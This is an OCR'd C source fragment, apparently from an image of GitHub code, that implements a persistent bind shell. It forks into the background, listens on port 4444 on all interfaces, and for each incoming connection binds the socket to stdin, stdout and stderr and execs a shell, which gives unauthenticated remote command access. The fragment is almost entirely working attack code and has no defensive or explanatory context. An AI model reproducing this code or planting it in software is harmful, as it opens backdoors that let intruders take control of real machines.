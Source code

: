 ```c
    int srv_sockfd, new_sockfd;
    socklen_t new_addrlen;
    struct sockaddr_in srv_addr, new_addr;

    // fork into background
    if (fork() == 0) {
        if ((srv_sockfd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
            return -1;
        }

        srv_addr.sin_family = PF_INET;
        srv_addr.sin_port = htons(atoi("4444"));
        srv_addr.sin_addr.s_addr = htonl(INADDR_ANY);

        if (bind(srv_sockfd, (struct sockaddr *)&srv_addr, sizeof(srv_addr)) < 0) {
            return -1;
        }

        if (listen(srv_sockfd, 1) < 0) {
            return -1;
        }

        // accept loop
        for (;;) {
            new_addrlen = sizeof(new_addr);
            new_sockfd = accept(srv_sockfd, (struct sockaddr *)&new_addr, &new_addrlen);
            if (new_sockfd < 0) {
                return -1;
            }

            // fork to handle new connection
            if (fork() == 0) {
                // close old listener
                close(srv_sockfd);
                // print the parent pid which should be killed in order
                // to remove the persistant bindshell listener
                sprintf(msg, "ppid=%d\n", getppid());
                write(new_sockfd, msg, strlen(msg));

                dup2(new_sockfd, 2);
                dup2(new_sockfd, 1);
                dup2(new_sockfd, 0);

                execl(SHELL, NAME, NULL);
                return 0;
            }
            else
                close(new_sockfd);
        } // end accept loop
    } // end fork into background
    return 0;
}
```
